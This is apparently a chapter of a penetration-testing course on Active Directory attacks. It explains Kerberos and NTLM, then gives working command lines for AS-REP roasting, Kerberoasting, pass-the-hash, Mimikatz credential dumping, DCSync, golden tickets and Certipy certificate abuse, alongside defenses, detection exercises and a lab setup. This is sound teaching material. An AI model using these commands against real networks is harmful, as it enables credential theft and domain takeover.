




# Active Directory hacking

> Active Directory is the identity backbone of ~90% of the world's companies. Knowing it inside out is the difference between junior and senior pentesters. A long section, but a necessary one.

## AD in 10 seconds

**Active Directory Domain Services (AD DS)** is Microsoft's centralized directory that manages:
- Users and groups.
- Computers.
- Security policies (GPO).
- Internal corporate DNS.
- Authentication (Kerberos primary, NTLM legacy).

**Structure:**
- **Forest** — trust boundary (multiple domains).
- **Domain** — namespace (`example.local`).
- **OU** — organizational unit (logical folder).
- **Sites** — physical topology (subnet ↔ DC mapping for replication/logon).
- **Trust** — relationships between domains/forests.

**Key components:**
- **DC** (Domain Controller) — host with AD DS.
- **GC** (Global Catalog) — cross-domain index.
- **KDC** (Key Distribution Center) — runs Kerberos, it is the DC itself.
- **DNS** — usually on the DC.
- **SYSVOL** — replicated share that contains GPOs.

## Kerberos step-by-step (the long version)

> Kerberos is "compressed" in many tutorials. Here I break it down because all AD attacks are built on understanding it.

### The basic idea

Three actors:
- **KDC** (Key Distribution Center): a single process on the DC that plays two logical roles: AS (authenticates) and TGS (issues tickets for services).
- **Client**: the user (or computer) that wants to access something.
- **Service**: SMB on a file server, LDAP on the DC, HTTP on an app, MSSQL on a DB.

The principle: **never send the password to the service**. Encrypted **tickets** are exchanged that the service can verify because it shares a secret key with the KDC.

All keys are **derived from passwords** via KDF (RC4-HMAC = NT hash, or AES128/AES256 + salt = string2key).

### The keys in play (the thing that confuses everyone)

Three types of symmetric keys:

| Key | Derived from | Who knows it | What it's for |
|---|---|---|---|
| **User key** $K_U$ | alice's password | alice + KDC | encrypt the AS-REP for alice |
| **krbtgt key** $K_{krbtgt}$ | `krbtgt` account password | only KDC | encrypt the TGT (for the KDC itself) |
| **Service key** $K_S$ | service account password (or computer$) | service + KDC | encrypt the service ticket |

To these are added the **session keys**: random symmetric keys generated by the KDC for each session, inside encrypted tickets.

### Phase 1 — AS-REQ / AS-REP (the user proves who they are)



**What the TGT contains** (when the KDC encrypts it, no one reads it outside the KDC):
- client identity (`alice@EXAMPLE.LOCAL`)
- TGS **session key** (random, valid for the session)
- group memberships (encoded in the **PAC** — Privilege Attribute Certificate)
- validity (typically 10 hours)
- flags (forwardable, renewable, ...)

**Pre-Authentication** (the `PA-ENC-TIMESTAMP`): if missing, the KDC would give an AS-REP to anyone asking "pretend to be alice" → the attacker would receive material encrypted with $K_U$ and could brute-force offline. **This is exactly AS-REP Roasting** — it only works if preauth is disabled on the account.

### Phase 2 — TGS-REQ / TGS-REP (I ask for a ticket to a specific service)



Key points:
- The KDC does **not** ask alice for her password again. It trusts the TGT it encrypted itself.
- The service ticket is encrypted with $K_S$ = the **target service's** key (e.g. the mssql_svc service account, or the FILESERVER01$ computer account).
- **Kerberoasting**: anyone with a TGT can request a TGS for any SPN. They receive a blob encrypted with $K_S$. If the service account's password is weak, brute-force offline.

### Phase 3 — AP-REQ / AP-REP (I present the ticket to the service)



The service **never talks to the KDC** during this step: it has everything it needs to validate the ticket thanks to pre-shared $K_S$.

### What the PAC is and why it matters

The **PAC** (Privilege Attribute Certificate) is a structure **inside** the ticket that contains:
- User SID.
- Group SIDs (Domain Admins, Domain Users, ...).
- Logon time.
- Server signature + KDC signature (for integrity).

When it arrives at the service, the PAC says "here are alice's roles". The service decides authorization (e.g. SMB on shares based on groups).

**Golden Ticket** = forge a TGT with the krbtgt hash + a controlled PAC (put yourself in Domain Admins). It will always print Authorized because the PAC is inside the encrypted ticket and nobody calls back to the KDC to validate.

### Numerical example of a Kerberoast crack

You capture a TGS-REP with `GetUserSPNs.py`. You extract:
```
$krb5tgs$23$*mssql_svc$EXAMPLE.LOCAL$cifs/sql01.example.local*$<RC4 ciphertext>
```

`23` = RC4-HMAC encryption type (NT hash as key). Crack:
```bash
hashcat -m 13100 ticket.txt rockyou.txt
```

For each candidate `pw`:
- Compute $K = \text{MD4}(\text{UTF-16LE}(pw))$ (NT hash).
- Decrypt the RC4 ciphertext.
- If the plaintext begins with a valid ASN.1 schema (Kerberos struct), match.

Speed: ~10 GH/s on an RTX 4090. 8-char mixed password = hours or days; strong passphrases = centuries.

> **Lesson**: use `--enctype aes256` (default today) for service tickets = $K = \text{PBKDF2}(pw)$ much slower to crack. And even better, **gMSA** (240-byte random password managed by Microsoft).

### Visual summary of the 3 hops



### "Where to attack" summary

| Phase | Capturable material | Attack name | Required prerequisite |
|---|---|---|---|
| AS-REP without preauth | E(K_U, ...) | **AS-REP Roasting** | user with `DONT_REQ_PREAUTH` |
| TGS-REP for any SPN | E(K_S, ...) | **Kerberoasting** | any domain user |
| krbtgt hash compromised | — | **Golden Ticket** | DCSync or full compromise |
| service account hash | — | **Silver Ticket** | compromised service account |
| TGT in memory of a server with unconstrained delegation | victim TGTs | **Unconstrained delegation abuse** | control of the server |
| ACL on computer object | write `msDS-AllowedToActOnBehalfOfOtherIdentity` | **RBCD** | WriteDACL/GenericWrite |

**Identify a "service" account by its SPN (Service Principal Name).**

## NTLM (legacy but alive)

Challenge-response based on a hash:
- Client sends `NEGOTIATE`.
- Server `CHALLENGE` with a random.
- Client replies with `NTLM(hash, challenge)`.
- Server verifies.

**NTLM hash:** MD4 of the Unicode password. **Fast to crack** (sub-second if weak).

Cracking via Responder, see section 12.

## AD recon (post-foothold)

Once you are inside a host with a domain user (any):

### Without offensive tools (LotL)

```powershell
# Domain info
Get-ADDomain                         # ActiveDirectory module if installed
nltest /domain_trusts
nltest /dclist:example.local

whoami /groups
whoami /priv

net user /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain

# Sessions
qwinsta /server:dc01
quser /server:fileserver

# All computers
Get-ADComputer -Filter * | Select Name
```

### With offensive tools

**BloodHound** is the gold standard:
1. Collector (**SharpHound** in C#, **BloodHound.py** in Python, **RustHound**).
2. Import JSON into BloodHound (Neo4j backend).
3. Run pre-built Cypher queries ("Find Shortest Path to Domain Admin", "Kerberoastable users", ...).

```bash
# SharpHound.exe (on the target)
SharpHound.exe -c All --zipfilename loot.zip

# BloodHound.py (from Linux with creds)
bloodhound-python -d example.local -u alice -p Password1 -c all -ns 10.10.10.1
```

**enum4linux-ng**, **CrackMapExec/NetExec**, **PowerView** (PowerShell).

```bash
nxc smb 10.10.10.0/24 -u users.txt -p passwords.txt --continue-on-success
nxc ldap dc01 -u alice -p Password1 --users
nxc ldap dc01 -u alice -p Password1 --asreproast asrep.txt
nxc ldap dc01 -u alice -p Password1 --kerberoast spn.txt
```

## The classic attacks

### 1. AS-REP Roasting

If an account has **"Do not require Kerberos preauthentication"** (UAC `DONT_REQ_PREAUTH`), anyone can request its AS-REP — which contains material encrypted with the password hash. You feed it to hashcat.

```bash
GetNPUsers.py -dc-ip 10.10.10.1 example.local/ -usersfile users.txt -no-pass
hashcat -m 18200 hashes.txt rockyou.txt
```

Mitigation: remove the flag (user configuration).

### 2. Kerberoasting

Every domain user can request a **service ticket** for any SPN. The service ticket is encrypted with the **service account's** password hash. If the account is a user with a weak password → offline crack.

```bash
GetUserSPNs.py example.local/alice:Password1 -dc-ip 10.10.10.1 -request -outputfile spns.txt
hashcat -m 13100 spns.txt rockyou.txt
```

Mitigation:
- Service accounts must be **gMSA** (Group Managed Service Account, Microsoft generates/rotates the password).
- Long passwords (25+ random).
- AES instead of RC4 (mode `--enctype aes` if possible).

### 3. Pass-the-Hash (PTH)

In NTLM, **if you have the password hash, you don't need the password**. You use it directly.

```bash
nxc smb 10.10.10.5 -u alice -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
psexec.py -hashes :NTHASH alice@10.10.10.5
```

Mitigation: Credential Guard (isolated LSASS), restrict NTLM in policy.

### 4. Pass-the-Ticket / Overpass-the-Hash

Same idea but with Kerberos tickets. **Overpass-the-Hash**: given an NT hash, request a TGT (RC4-HMAC) for that user.

```bash
# Rubeus on Windows
Rubeus.exe asktgt /user:alice /domain:example.local /rc4:HASH /ptt
# then
klist  # see the ticket
# Commands that use Kerberos now work as alice
```

### 5. Mimikatz and LSASS

On the compromised target with local admin:

```text
privilege::debug
sekurlsa::logonpasswords          # dump all hashes + plaintext (old WDigest)
sekurlsa::tickets /export          # export tickets
lsadump::dcsync /user:DC$         # if you have privileges
```

Defenses: Credential Guard, Defender ASR ("Block credential stealing from LSASS"), EDR. Microsoft has deprecated WDigest (no more plaintext in memory by default), but RC4 and NT hashes are still there.

### 6. DCSync

An account with **DS-Replication-Get-Changes-All** privilege on the Domain Naming Context can request replication → receives the hashes of all users, including krbtgt.

```bash
secretsdump.py example.local/admin:Password1@dc01 -just-dc-ntlm
# From Windows with Rubeus/Mimikatz:
lsadump::dcsync /user:krbtgt
```

Typically: Domain Admins, Enterprise Admins, BUILTIN\Administrators of the domain. **Sometimes** also accounts with misconfigured permissions (look for `DCSync` in BloodHound).

### 7. Golden Ticket

With the krbtgt hash you **forge an arbitrary TGT**, valid for anyone, usually for 10 years. Long-term persistence.

```text
mimikatz # kerberos::golden /domain:example.local /sid:S-1-5-21-... /krbtgt:HASH /user:Administrator /id:500 /ptt
```

Defense: rotate the krbtgt password twice (Microsoft `Reset-KrbtgtKeyInteractive.ps1` script).

### 8. Silver Ticket

With the hash of a **service account**, you forge a valid service ticket for that service. More stealthy than the golden (doesn't go through the DC).

### 9. Diamond / Sapphire Ticket

Modern techniques that modify a genuine ticket before distribution (Diamond) or request it directly from the KDC with anomalies (Sapphire), to evade detection.

### 10. Unconstrained Delegation Abuse

If a host has "Trust this computer for delegation to any service" → when a user authenticates to that host, their TGT is stored there. By compromising the server, you harvest TGTs of admins who connect.

**Printer Bug (CVE-2019-1040, Hot Potato, etc.)**: force the DC to do SMB authentication to your host with unconstrained → receive the DC's TGT → everything compromised.

### 11. Constrained Delegation Abuse

"Account A can impersonate B to service X". If you control A and B is admin of another server → you impersonate B to X.

**S4U2Self/S4U2Proxy** abuse.

### 12. Resource-Based Constrained Delegation (RBCD)

Update the target computer object's `msDS-AllowedToActOnBehalfOfOtherIdentity` → you control which account can impersonate to that computer. Combined with other primitives → remote SYSTEM.

### 13. GPP Passwords

Historic Group Policy Preferences (pre-2014 MS14-025 patch) stored passwords encrypted with a **publicly known** AES key. You search for `cpassword=` in SYSVOL `\\domain.local\sysvol\domain\Policies\...\Groups.xml`. Decrypt with `gpp-decrypt`. **You still find it in legacy.**

### 14. ADCS — ESC1...ESC15

Active Directory Certificate Services (enterprise CA). Misconfigured certificate template = **right to issue certificates for other users** = permanent persistence.

Examples:
- **ESC1**: Template with `EnrolleeSuppliesSubject` + `CT_FLAG_NO_SECURITY_EXTENSION` + Client Authentication EKU + enrollable by a low user. → request cert for "Administrator" → log in as admin.
- **ESC4**: Template ACL → you modify it → becomes ESC1.
- **ESC8**: Web Enrollment via NTLM relay → relay → cert for DC$ → DCSync.
- **ESC9, ESC10, ESC11**: variants of `no security extension` + weak `StrongCertificateBindingEnforcement`.

Tools: **Certipy** (Python), **Certify** (C#).

```bash
certipy find -u alice@example.local -p Password1 -dc-ip 10.10.10.1 -vulnerable -stdout
certipy req -u alice -p Password1 -ca CA-NAME -template "Vuln-Template" -upn admin@example.local -dc-ip 10.10.10.1
certipy auth -pfx admin.pfx
```

**Main reference**: paper "Certified Pre-Owned" (SpecterOps, 2021).

### 15. ACL abuse

Right ACE on the Domain object (e.g. `GenericAll` on the DC) → DCSync. ACE on a target user → reset password / WriteSPN / WriteOwner → owner chain to admin.

BloodHound shows everything. Cypher:
```cypher
MATCH p=(s:User)-[r:GenericAll|WriteDacl|WriteOwner|ForceChangePassword]->(t)
WHERE s.name STARTS WITH 'ALICE' RETURN p
```

### 16. Domain trust abuse

In forests/domains with trusts:
- **SID History injection** if the forest trust has no SID filtering (rare).
- **Trust ticket forgery** (cross-domain golden ticket).
- **Cross-forest Kerberos delegation**.

## Map of a typical AD attack (red team)

1. Initial access (macro phishing / exposed vuln).
2. Local privesc to SYSTEM (section 06).
3. Credentials on the host (Mimikatz / DPAPI / Browser).
4. AD recon (BloodHound).
5. Identify a path to domain admin.
6. AS-REP roast / Kerberoast → offline crack.
7. Lateral movement via PSExec / WMI / WinRM with captured hashes/creds.
8. Possibly ADCS abuse / unconstrained / RBCD.
9. **DCSync** from the target with privileges.
10. **Golden Ticket** for persistence.
11. Data exfil.

## AD defense — the key points

- **Tier model** (Tier 0/1/2): domain admins never logged onto workstations; their accounts separated.
- **PAW** (Privileged Access Workstations): dedicated machines for admins with a strict baseline.
- **JEA / JIT** (Just Enough/Just In Time Admin): with Microsoft PAM or Identity Governance.
- **LAPS** (Local Administrator Password Solution): rotate unique local admin passwords per host, stored in AD.
- **Restrict NTLM**, **disable LLMNR/NBT-NS**, **SMB signing required**.
- **AD Tier-0 hardening**: no service accounts in Domain Admins.
- **MDI** (Microsoft Defender for Identity, formerly Azure ATP): detects enumeration, Kerberos attacks, lateral movement.
- **gMSA** for service accounts.
- **MFA** + Conditional Access for privileged users.
- **Patch Print Spooler** (PrintNightmare etc.); often disable Print Spooler on DCs.
- **Rotate krbtgt** regularly.
- **ADCS** hardening: review templates, disable Web Enrollment if not needed, EPA + LDAP signing.

## Azure AD / Entra ID (overview)

Cloud AD has different models:
- JWT tokens.
- Conditional Access policies.
- Attacks: **Pass-the-PRT** (Primary Refresh Token), **Token Theft**, **OAuth phishing** (illicit consent), **Device Code Phishing**.
- Tools: **ROADtools**, **AADInternals**, **GraphRunner**.

Moving between on-prem AD and Entra (hybrid) is a separate advanced pentest. Look up Specterops blog "Death from Above", "Adversary in the Middle".

## Exercises

### Exercise 13.1 — Home AD lab
Minimum setup:
- Windows Server 2019/2022 → install AD DS, create `example.local`.
- Windows 10/11 client → join domain.
- 5-10 fake users with various passwords (some weak, some with SPNs).
- Disable SMB signing on a host. Configure LLMNR enabled.

Free templating: **GOAD** (Game of Active Directory by M4yfly) — `git clone https://github.com/Orange-Cyberdefense/GOAD`.

### Exercise 13.2 — BloodHound walkthrough
On your lab:
```bash
bloodhound-python -d example.local -u alice -p Password1 -c all -ns 10.10.10.1
```

Import into BloodHound. Run queries:
- "Find Shortest Paths to Domain Admins".
- "Find AS-REP Roastable Users".
- "Find Kerberoastable Users".
- "Find principals with Path to High Value Targets".

### Exercise 13.3 — AS-REP → Kerberoast → DCSync chain
1. Identify AS-REProastable users, crack a password.
2. With that, GetUserSPNs → Kerberoast.
3. Crack a service account.
4. Check with BloodHound whether that account has DS-Replication privileges.
5. If yes → secretsdump → krbtgt hash.
6. Golden Ticket → Administrator.

### Exercise 13.4 — Certipy ESC1
On a lab with ADCS:
```bash
certipy find -u alice@example.local -p Password1 -dc-ip 10.10.10.1 -vulnerable -stdout
# find "Vuln-Template" ESC1
certipy req -u alice -p Password1 -ca example-CA -template Vuln-Template -upn administrator@example.local
certipy auth -pfx administrator.pfx
```

What are you demonstrating? Which key comes out at the end? What can you do with it?

### Exercise 13.5 — TryHackMe / HackTheBox
- TryHackMe: **"Attacktive Directory"**, **"Holo"**.
- HackTheBox: AD machines like **Active**, **Forest**, **Resolute**, **Cascade**, **Sauna**, **Monteverde**, **Mantis** (old but educational), **Object**, **Authority** (more modern).

### Exercise 13.6 — Mitigation walkthrough
On a host: disable LLMNR via GPO. Enable SMB signing required. Update LAPS. Verify with Responder that it now receives nothing.

### Exercise 13.7 — Detection
Run an AS-REP Roast and a Kerberoast in your lab. Look at Event Viewer / Sysmon on the DC:
- Event ID 4768 (TGT requested).
- Event ID 4769 (TGS requested).
- AAD: what does MDI tell you?

Which fields indicate "suspicious behavior"? Volume of TGS requests with RC4 encryption? "Don't require preauth" flagged?

## Key concepts

1. **Kerberos**: TGT, TGS, SPN.
2. **AS-REP Roast** and **Kerberoast** can be done with a basic domain user.
3. **DCSync** requires specific privileges → BloodHound finds them.
4. **NTLM legacy + relay** = still a very current problem.
5. **ADCS ESC1-15** are often the most direct path to Domain Admin.
6. **mimikatz + LSASS** vs Credential Guard / EDR.
7. **gMSA, LAPS, Tier model, EPA, LDAP/SMB signing** = pillars of AD defense.

Now I take you into the world of binaries: exploit dev, reverse, malware.
